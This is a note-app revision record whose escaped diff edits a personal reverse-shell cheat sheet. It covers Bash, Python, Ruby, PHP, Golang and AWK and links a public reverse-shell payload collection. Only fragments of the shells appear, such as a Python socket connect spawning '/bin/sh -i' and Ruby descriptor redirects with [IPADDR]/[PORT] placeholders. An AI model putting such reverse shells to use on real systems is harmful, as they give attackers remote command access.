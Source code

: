 id: 9421cba4205442c290d181c8acceb167
parent_id: 2a3253c37c6746bf86b107929470c8a6
item_type: 1
item_id: 83bdabe39eb548a7b6d0737c2851b62e
item_updated_time: 1643337527184
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\"or it?\\\n\\\n\"],[-1,\"\\\n\"],[0,\"## Defau\"]],\"start1\":249,\"start2\":249,\"length1\":17,\"length2\":16},{\"diffs\":[[0,\"s\\\n\\\nBash:\"],[-1,\" \"],[0,\"\\\n\\\n- bash\"]],\"start1\":414,\"start2\":414,\"length1\":17,\"length2\":16},{\"diffs\":[[0,\"\\\nPython:\"],[-1,\" \"],[0,\"\\\n\\\n- pyth\"]],\"start1\":703,\"start2\":703,\"length1\":17,\"length2\":16},{\"diffs\":[[0,\"et(socket.AF\"],[1,\"\\\\\"],[0,\"_INET,socket\"]],\"start1\":767,\"start2\":767,\"length1\":24,\"length2\":25},{\"diffs\":[[0,\"INET,socket.SOCK\"],[1,\"\\\\\"],[0,\"_STREAM);s.conne\"]],\"start1\":781,\"start2\":781,\"length1\":32,\"length2\":33},{\"diffs\":[[0,\"ss.call(\"],[1,\"\\\\\"],[0,\"[\\\"/bin/s\"]],\"start1\":916,\"start2\":916,\"length1\":16,\"length2\":17},{\"diffs\":[[0,\"sh\\\",\\\"-i\\\"\"],[1,\"\\\\\"],[0,\"]);'\\\n\\\nIP\"]],\"start1\":932,\"start2\":932,\"length1\":16,\"length2\":17},{\"diffs\":[[0,\"'\\\n\\\nIPv6:\"],[-1,\" \"],[0,\"\\\n\\\n- pyth\"]],\"start1\":944,\"start2\":944,\"length1\":17,\"length2\":16},{\"diffs\":[[0,\"ocket.AF\"],[1,\"\\\\\"],[0,\"_INET6,s\"]],\"start1\":1016,\"start2\":1016,\"length1\":16,\"length2\":17},{\"diffs\":[[0,\",socket.SOCK\"],[1,\"\\\\\"],[0,\"_STREAM);s.c\"]],\"start1\":1031,\"start2\":1031,\"length1\":24,\"length2\":25},{\"diffs\":[[0,\"n/sh\\\");'\"],[-1,\" \"],[0,\"\\\n\\\nRuby:\\\n\"]],\"start1\":1179,\"start2\":1179,\"length1\":17,\"length2\":16},{\"diffs\":[[0,\" -i \"],[-1,\"<&%d >\"],[1,\"&lt;&%d &gt;\"],[0,\"&%d \"]],\"start1\":1277,\"start2\":1277,\"length1\":14,\"length2\":20},{\"diffs\":[[0,\"ew(\\\"\"],[1,\"\\\\\"],[0,\"[IPADDR\"],[1,\"\\\\\"],[0,\"]\\\",\\\"\"],[1,\"\\\\\"],[0,\"[PORT\"],[1,\"\\\\\"],[0,\"]\\\");\"]],\"start1\":1358,\"start2\":1358,\"length1\":24,\"length2\":28},{\"diffs\":[[0,\"d}end'\\\n\\\n\"],[-1,\"\\\n\"],[0,\"PHP:\\\n\\\nPe\"]],\"start1\":1440,\"start2\":1440,\"length1\":17,\"length2\":16},{\"diffs\":[[0,\"In Kali:\"],[-1,\" \"],[0,\"\\\n\\\n/usr/s\"]],\"start1\":1492,\"start2\":1492,\"length1\":17,\"length2\":16},{\"diffs\":[[0,\" -i \"],[-1,\"<&3 >\"],[1,\"&lt;&3 &gt;\"],[0,\"&3 2\"]],\"start1\":1675,\"start2\":1675,\"length1\":13,\"length2\":19},{\"diffs\":[[0,\"neliner:\"],[-1,\" \"],[0,\"\\\n\\\nNote: \"]],\"start1\":1723,\"start2\":1723,\"length1\":17,\"length2\":16},{\"diffs\":[[0,\" to you.\"],[-1,\" \"],[0,\"\\\n\\\n```\\\n# \"]],\"start1\":1923,\"start2\":1923,\"length1\":17,\"length2\":16},{\"diffs\":[[0,\"\\\nGolang:\"],[-1,\" \"],[0,\"\\\n\\\n- echo\"]],\"start1\":4354,\"start2\":4354,\"length1\":17,\"length2\":16},{\"diffs\":[[0,\"go\\\n\\\nAWK:\"],[-1,\" \"],[0,\"\\\n\\\n- awk \"]],\"start1\":4588,\"start2\":4588,\"length1\":17,\"length2\":16},{\"diffs\":[[0,\"v/null\\\n\\\n\"],[-1,\"\\\n\"],[0,\"Other Re\"]],\"start1\":4800,\"start2\":4800,\"length1\":17,\"length2\":16},{\"diffs\":[[0,\"e Shell:\"],[-1,\" \"],[0,\"\\\n\"],[1,\"[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Reverse Shell Cheatsheet.md](\"],[0,\"https://\"]],\"start1\":4820,\"start2\":4820,\"length1\":18,\"length2\":137},{\"diffs\":[[0,\"sheet.md\"],[-1,\"\\\n\"],[1,\")\"],[0,\"\\\n\\\n## Oth\"]],\"start1\":5066,\"start2\":5066,\"length1\":17,\"length2\":17},{\"diffs\":[[0,\"esources\"],[-1,\" \"],[0,\"\\\n\\\n- Amsi\"]],\"start1\":5087,\"start2\":5087,\"length1\":17,\"length2\":16},{\"diffs\":[[0,\"hell\"],[-1,\" \"],[0,\"\\\n\\\n\"],[-1,\"\\\n\\\n\\\n\\\n\"],[1,\"![29d1cb0d905ec0a949bd45b285bf0eb2.png](:/129afa1ffd454b0b8972c7fc8f84c394)\"]],\"start1\":5175,\"start2\":5175,\"length1\":11,\"length2\":81}]"
metadata_diff: {"new":{},"deleted":["user_updated_time"]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-01-28T02:39:14.071Z
created_time: 2022-01-28T02:39:14.071Z
type_: 13